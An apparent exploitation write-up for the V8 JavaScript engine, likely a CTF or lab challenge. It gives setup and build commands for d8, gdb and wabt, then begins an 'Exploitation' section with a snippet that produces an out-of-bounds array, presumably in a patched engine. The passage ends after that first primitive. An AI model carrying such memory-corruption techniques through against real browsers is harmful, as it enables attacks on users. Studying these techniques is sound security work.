 ```bash
sudo apt install -y libasound2:i386 libcap2:i386 libelf-dev:i386 libfontconfig1:i386 libglib2.0-0:i386 libgpm2:i386 libncurses5:i386 libnss3:i386 libpango1.0-0:i386 libpci3:i386 libssl-dev:i386 libssl1.1:i386 libtinfo-dev:i386 libudev1:i386 libuuid1:i386 libx11-xcb1:i386 libxcomposite1:i386 libxcursor1:i386 libxdamage1:i386 libxi6:i386 libxrandr2:i386 libxss1:i386 libxtst6:i386 linux-libc-dev:i386 ant apache2-bin autoconf binutils binutils-aarch64-linux-gnu binutils-arm-linux-gnueabihf binutils-mips64el-linux-gnuabi64 binutils-mipsel-linux-gnu bison bzip2 cdbs cmake curl dbus-x11 devscripts dpkg-dev elfutils fakeroot flex g++-9-multilib g++-arm-linux-gnueabihf g++-mingw-w64-i686 gawk git-core gperf intltool lib32gcc1 lib32ncurses5-dev lib32stdc++6 lib32z1-dev libappindicator3-1 libappindicator3-dev libasound2 libasound2-dev libatk1.0-0 libatspi2.0-0 libatspi2.0-dev libbluetooth-dev libbrlapi-dev libbz2-1.0 libbz2-dev libc6 libc6-dev libc6-dev-armhf-cross libc6-i386 libcairo2 libcairo2-dev libcap-dev libcap2 libcups2 libcups2-dev libcurl4-gnutls-dev libdrm-dev libelf-dev libexpat1 libffi-dev libfontconfig1 libfreetype6 libgbm-dev libglib2.0-0 libglib2.0-dev libglu1-mesa-dev libgtk-3-0 libgtk-3-dev libjpeg-dev libkrb5-dev libnspr4 libnspr4-dev libnss3 libnss3-dev libpam0g libpam0g-dev libpango1.0-0 libpci-dev libpci3 libpcre3 libpixman-1-0 libpng16-16 libpulse-dev libpulse0 libsctp-dev libspeechd-dev libspeechd2 libsqlite3-0 libsqlite3-dev libssl-dev libstdc++6 libtinfo-dev libtool libudev-dev libudev1 libuuid1 libwayland-egl1-mesa libwww-perl libx11-6 libx11-xcb1 libxau6 libxcb1 libxcomposite1 libxcursor1 libxdamage1 libxdmcp6 libxext6 libxfixes3 libxi6 libxinerama1 libxkbcommon-dev libxrandr2 libxrender1 libxslt1-dev libxss-dev libxt-dev libxtst-dev libxtst6 linux-libc-dev-armhf-cross locales openbox p7zip patch perl pkg-config python python-crypto python-dev python-numpy python-openssl python-psutil python-yaml rpm ruby subversion texinfo uuid-dev wdiff x11-utils xcompmgr xsltproc xutils-dev xvfb xz-utils zip zlib1g gcc-arm-linux-gnueabihf g++-9-arm-linux-gnueabihf ninja-build

# build v8
gn gen out/debug --args='is_component_build=false v8_optimized_debug=false'
gn gen out/release --args='is_debug=false'
autoninja -C out/debug d8
autoninja -C out/release d8

# install gdb plugin
echo "source $HOME/v8/v8/tools/gdbinit" >> ~/.gdbinit

# wabt
git clone --recursive https://github.com/WebAssembly/wabt ~/wabt
cd ~/wabt
git submodule update --init
mkdir build
cd build
cmake ..
cmake --build .
```

## Exploitation

### Generate OOB array

```js
// flags: --allow-natives-syntax --shell

let oob_arr = [1.1];

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${oob_arr.length}`);

% DebugPrint(oob_arr);
```
